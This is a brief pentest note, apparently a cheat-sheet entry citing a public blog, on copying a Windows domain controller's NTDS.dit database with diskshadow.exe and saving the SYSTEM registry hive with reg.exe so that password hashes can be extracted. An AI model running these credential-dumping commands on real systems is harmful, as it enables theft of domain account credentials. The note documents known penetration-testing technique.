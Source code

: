 # Use DiskShadow to copy NTDS.dit

Comes from https://pentestlab.blog/tag/ntds-dit/

To copy the NTDS.dit file to C:\Windows\temp, run:

* diskshadow.exe /s c:\windows\temp\diskshadow.txt

If you plan to extract password hashes from ntds.dit, you will also get a dump of SYSTEM from the registry:

* reg.exe save hklm\system c:\windows\temp\reg.bak

